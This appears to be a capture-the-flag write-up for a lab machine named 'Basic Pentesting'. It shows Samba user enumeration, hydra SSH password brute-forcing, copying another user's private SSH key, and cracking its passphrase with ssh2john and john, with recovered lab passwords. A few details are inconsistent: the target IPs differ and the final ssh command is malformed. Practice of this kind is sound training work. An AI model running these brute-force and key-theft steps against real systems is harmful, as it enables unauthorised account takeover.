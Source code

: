 # Machine Name : Basinc Pentesting
# Machine IP : 10.10.103.67

# Scanning
Reference file path : /Gathering/Basic_Pentesting_Scan_Result.md <br>

# Gobuster
Reference file path : /Gathering/gobusterResult.md <br>

# Samba Enumeration Result : 
***command : ./enum4linux.pl -a {ip} | tee {output log file}*** <br>
***Reference file path : /Gathering/enumSMB.log*** <br>

***enum4linx result shorting*** <br>
WARNING: polenum.py is not in your path.  Check that package is installed and your PATH is sane.   <br>
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat May 16 22:08:45 2020   <br>

|    Target Information    |   <br>
Target ........... 10.10.28.75   <br>
RID Range ........ 500-550,1000-1050  <br> 
Username ......... ''   <br>
Password ......... ''   <br>
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none   <br>
...  
***S-1-22-1-1000 Unix User\kay (Local User)***<br>
***S-1-22-1-1001 Unix User\jan (Local User)***<br>

|    Getting printer info for 10.10.28.75    |   <br>
No printers returned.   <br>

# Password Guessing : 
***command : hydra -l jan -P password-guessing-list.txt ssh://10.10.28.75/ <br>***

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. <br>
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-16 23:17:58   <br>
[WARNING] Many SSH configurations limit the number of parallel tasks, it is   recommended to reduce the tasks: use -t 4   <br>
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task   <br>
[DATA] attacking ssh://10.10.28.75:22/   <br>
[STATUS] 142.00 tries/min, 142 tries in 00:01h, 14344256 to do in 1683:36h, 16 active   <br>
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344062 to do in 2134:32h, 16 active   <br>
[STATUS] 105.14 tries/min, 736 tries in 00:07h, 14343662 to do in 2273:41h, 16 active   <br>
***[22][ssh] host: 10.10.28.75   login: jan   password: armando***<br>  
1 of 1 target successfully completed, 1 valid password found   <br>
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-16 23:25:25   <br>

***We get it jan's password*** <br>

# Privilege Escalate 
Linpeas is privilege escalate tool<br>
***i can used Linpeas*** <br>
  1. id_rsa copyit   <br>
  - user home directory move ( username : kay)
  - '.ssh/id_rsa' content copy your computer
  
  2. ssh2john.py : hash extract  <br>    
  - Command  :
  - ./ssh2john.py id_rsa > output.txt
  - Example : 
  ./ssh2john.py hacking_project/thm/Basic_Pentesting/kay_id_rsa > forjohn.txt <br>

# Password Brute Forcing !
***john the ripper Command*** <br>
john forjohn.txt --wordlist=password_guessing_list.txt <br>

Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate. <br>
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"  <br>
Use the "--format=ssh-opencl" option to force loading these as that type instead <br>
Using default input encoding: UTF-8 <br>
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64]) <br>
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes <br>
Cost 2 (iteration count) is 1 for all loaded hashes  <br>
Press 'q' or Ctrl-C to abort, almost any other key for status <br>
***beeswax          (kay_id_rsa)*** <br>
1g 0:00:00:05 69.06% (ETA: 17:45:23) 0.1703g/s 1687Kp/s 1687Kc/s 1687KC/s aveged7x <br>
Session aborted <br>

# Connect use id_rsa file command
***Command : ssh -i id_rsa@{IP}*** <br>
1. chmod 600 id_rsa <br>
2. input passphrase : beeswax   <br>
3. We make it!  <br>


